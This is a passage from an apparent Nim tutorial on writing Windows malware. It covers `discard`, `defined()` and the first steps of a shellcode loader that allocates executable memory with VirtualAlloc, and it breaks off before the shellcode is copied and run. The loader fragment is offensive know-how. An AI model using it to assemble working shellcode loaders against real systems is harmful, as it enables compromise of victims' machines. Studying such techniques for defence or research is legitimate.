 - discard

```nim
discard WaitForSingleObject(tHandle, -1)
```

Nim warns you if there are values that are define but not being used. That is why there also is a statement like `discard`, to call a function but without taking care of the return value

<br/>

- defined()

```nim
when defined(windows):
  doSomething()
```

The procedure `defined()` is a built-in feature which allows us to check if a certain constant or symbol was given during compilation. This is usually used to check the OS in which the program will run, to perform one operation or another.

# Calling Windows API (Example)

In order to be able to use the Windows API, we have to import the native `winim` library. It will provide us direct access to functions like `VirtualALloc` or `WriteProcessMemory`.

First of all we start by importing the package as mentioned:

```nim
import winim/lean
```

Then we define the main function where all our malicious stuff will be:

```nim
proc loadShellcode(shellcode: openarray[byte]): void =
```

And once we have done this, we have to call the Windows API function as it is defined. In our case we start by calling `VirtualAlloc`:

```
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

That would be translated to Nim like this:

```nim
var mem = VirtualAlloc(nil, len(shellcode), MEM_COMMIT, PAGE_EXECUTE_READ_WRITE)
```

Having this in mind, we continue by copying the shellcode to the memory allocated before using `memCopy` (we could have also used `WriteProcessMemory` instead):
